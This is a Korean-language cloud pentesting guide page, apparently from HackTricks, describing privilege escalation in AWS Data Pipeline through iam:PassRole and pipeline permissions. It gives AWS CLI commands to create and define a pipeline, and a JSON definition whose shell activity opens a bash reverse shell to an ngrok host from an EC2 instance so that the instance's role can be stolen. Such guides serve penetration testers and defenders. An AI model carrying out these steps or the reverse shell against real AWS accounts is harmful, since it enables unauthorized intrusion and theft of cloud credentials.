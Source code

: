 # AWS - Datapipeline Privesc

{{#include ../../../banners/hacktricks-training.md}}

## datapipeline

datapipeline에 대한 자세한 정보는 다음을 확인하세요:

{{#ref}}
../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md
{{#endref}}

### `iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, `datapipeline:ActivatePipeline`

이 **권한을 가진 사용자들은 Data Pipeline을 생성하여** **할당된 역할의 권한을 사용하여 임의의 명령을 실행함으로써 권한을 상승시킬 수 있습니다:**
```bash
aws datapipeline create-pipeline --name my_pipeline --unique-id unique_string
```
파이프라인 생성 후, 공격자는 특정 작업이나 리소스 생성을 지시하기 위해 정의를 업데이트합니다:
```json
{
"objects": [
{
"id": "CreateDirectory",
"type": "ShellCommandActivity",
"command": "bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/13605 0>&1'",
"runsOn": { "ref": "instance" }
},
{
"id": "Default",
"scheduleType": "ondemand",
"failureAndRerunMode": "CASCADE",
"name": "Default",
"role": "assumable_datapipeline",
"resourceRole": "assumable_datapipeline"
},
{
"id": "instance",
"name": "instance",
"type": "Ec2Resource",
"actionOnTaskFailure": "terminate",
"actionOnResourceFailure": "retryAll",
"maximumRetries": "1",
"instanceType": "t2.micro",
"securityGroups": ["default"],
"role": "assumable_datapipeline",
"resourceRole": "assumable_ec2_profile_instance"
}
]
}
```
> [!NOTE]
> **14, 15 및 27행**의 **역할**은 **datapipeline.amazonaws.com**에 의해 **가정 가능한 역할**이어야 하며, **28행**의 역할은 **EC2 프로필 인스턴스가 있는 ec2.amazonaws.com에 의해 가정 가능한 역할**이어야 합니다.
>
> 또한, EC2 인스턴스는 EC2 인스턴스에 의해 가정 가능한 역할에만 접근할 수 있으므로 (그 역할만 훔칠 수 있습니다).
```bash
aws datapipeline put-pipeline-definition --pipeline-id <pipeline-id> \
--pipeline-definition file:///pipeline/definition.json
```
공격자가 제작한 **파이프라인 정의 파일은 AWS API를 통해 명령을 실행하거나 리소스를 생성하는 지시어를 포함하고 있으며, Data Pipeline의 역할 권한을 활용하여 추가 권한을 얻을 수 있습니다.**

**잠재적 영향:** 지정된 ec2 서비스 역할로의 직접적인 권한 상승.

## References

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{{#include ../../../banners/hacktricks-training.md}}
